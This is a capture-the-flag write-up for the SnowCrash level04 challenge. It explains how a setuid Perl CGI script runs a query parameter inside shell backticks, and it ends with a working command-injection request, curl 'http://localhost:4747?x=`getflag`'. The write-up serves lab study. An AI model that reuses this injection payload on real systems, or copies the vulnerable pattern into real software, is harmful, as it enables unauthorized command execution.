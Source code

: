 # Writeup level04


In this machine we have suid file with Suid/SGID set:

-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl



that the code in level04.pl 
```
#!/usr/bin/perl
# localhost:4747

use CGI qw{param};

# Set the content type of the response to text/html
print "Content-type: text/html\n\n";

# Define the subroutine x
sub x {
  $y = $_[0];
  # Execute the command "echo $y" and capture the output
  print `echo $y 2>&1`;
}

# Call the subroutine x with the value of the parameter "x" from the request
x(param("x"));
```
after noticing the comment in this script we can scan the port to see if port 4747 is open

ss -a
![ss-command.png](https://i.postimg.cc/FhssNh7r/ss-command.png)


```
level04@SnowCrash:~$ ss -a
State      Recv-Q Send-Q                                                Local Address:Port                                                    Peer Address:Port   
LISTEN     0      128                                                              :::4646                                                              :::*       
LISTEN     0      128                                                              :::4747                                                              :::*       
LISTEN     0      128                                                              :::http                                                              :::*       
LISTEN     0      128                                                              :::4242                                                              :::*       
LISTEN     0      128                                                               *:4242                                                               *:*       
LISTEN     0      32                                                        127.0.0.1:pcrd                                                               *:*       
ESTAB      0      0                                                       192.168.1.3:4242                                                     192.168.1.9:57722  
``` 


After testing with port 4747 and having a web server listening, and upon examining the line `x(param("x"));`, we can understand that the Perl CGI script retrieves the value of the 'x' parameter from the query string. The retrieved value is then used as an argument to the function sub x, where the command `print 'echo $y 2>&1'; `is executed. This command prints the output of the executed command to the web page. In essence, the script takes user-supplied input from the 'x' parameter and runs it as a shell command, displaying the results on the web page. It's important to note that this approach poses a security risk, as it may be vulnerable to command injection attacks.
Test:

![level04_test](https://cdn.discordapp.com/attachments/1164485225875783701/1172253459316232192/image.png?ex=655fa51c&is=654d301c&hm=de8352bb326e61c3e4b4faf4d4f23733ea4dbae76596d8dbf1afd5c7023db3ff&)


### let to explain 

* $y = $_[0];
* print `echo $y 2>&1`;
* x(param("x")); 

In the Bash shell, the backtick character (`) is used to perform command substitution. It allows you to execute a command within a command and capture the output of that command.
Alternatively, you can also use the modern syntax $() for command substitution, which provides better readability and can be nested more easily:
that means if we send a request with parameter x=`ls` that "ls" now not an argument for echo is another command that save in y that.
- print `echo `ls` 2>&1`
now let have the flag and go to anther level



we can use : curl 'http://localhost:4747?x=`getflag`'

![level04_exploit](https://cdn.discordapp.com/attachments/1164485225875783701/1172256517702041720/image.png?ex=655fa7f5&is=654d32f5&hm=6dd0f38d3de5815dd36f53466a430ffedccb701df0e9052cc0231c3a52f5fff3&)
